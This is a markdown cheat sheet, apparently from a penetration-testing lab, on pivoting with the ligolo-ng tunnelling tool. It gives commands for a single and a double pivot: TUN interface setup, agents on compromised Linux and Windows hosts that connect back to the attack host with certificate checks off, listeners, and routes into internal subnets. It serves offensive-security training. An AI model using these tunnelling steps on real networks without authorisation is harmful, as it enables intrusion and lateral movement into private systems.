

> New generation tool for reverse tunneling. Easy to use tool that use **TUN** interfaces instead of traditional **SOCKS** proxies.

| **Machine name**       | **IP public network** | **IP internal network** | **IP internal network 2** |
| ---------------------- | :-------------------: | :---------------------: | :-----------------------: |
| 🥷**Attack host**      |     10.10.14.206      |            X            |             X             |
| 💻**Pivot (Linux)**    |    10.129.229.129     |       172.16.5.15       |             X             |
| 🎯**Pivot2 (Windows)** |           X           |       172.16.5.35       |        172.16.6.35        |
- **Windows agent**: `/opt/resources/windows/ligolo-ng/agent.exe`
- **Linux agent**: `/opt/resources/linux/ligolo-ng/agent_linux_amd64`
- **Latest Ligolo agent version**: on [Github page](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8.2)
# Ligolo-ng simple pivot
## Proxy Setup - Attack host
```bash
# 1. Create TUN interface - here the user is root
ip tuntap add user root mode tun ligolo
ip link set ligolo up
# 2. Launch ligolo with self-cert configuration - Otherwise check documentation to use REAL CERT
ligolo-ng -selfcert
```
## Agent setup
### Linux
```bash
./agent_linux_amd64 -connect 10.10.14.206:11601 -ignore-cert
```
### Windows
```powershell
./agent.exe -connect 10.10.14.206:11601 -ignore-cert
```
## Tunnel setup
```bash
ligolo-ng » session # then select our session that we want to interact with
[Agent : webadmin@inlanefreight.local] » ifconfig # check the Pivot host network configuration
ip route add 172.16.5.0/24 dev ligolo # Add route to internal network on our attack box
[Agent : webadmin@inlanefreight.local] » start # start the tunnel
```
# Ligolo-ng double pivot
```bash
# 1. Create a second tun interface
ip tuntap add user root mode tun ligolo-double
ip link set ligolo-double up
# 2. Create listener - On pivot host, this command will create a listener on port 11601 on all INT
[webadmin@inlanefreight.local] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
[Agent : webadmin@inlanefreight.local] » listener_list # check if the listener is setup
# 3. Configure the agent
./agent.exe -connect 172.16.5.15:11601 -ignore-cert
```

```bash
# 4. Start the tunnel and add route
[Agent : webadmin@inlanefreight.local] » session # choose the second pivot connection
[Agent : PIVOT-SRV01\mlefay@PIVOT-SRV01] » tunnel_start --tun ligolo-double
# 5. add route through ligolo-double for the other network
ip route add 172.16.6.0/24 dev ligolo-double
```
## Useful commands
```bash
ip route show # Display current route on the attack host
[Agent : webadmin@inlanefreight.local] » stop # Stop a tunnel
ligolo-ng » session # Display and choose session.
-- Remove tuntap interface --
ip link set ligolo-double down
ip link delete ligolo-double
ip tuntap show # check the result
```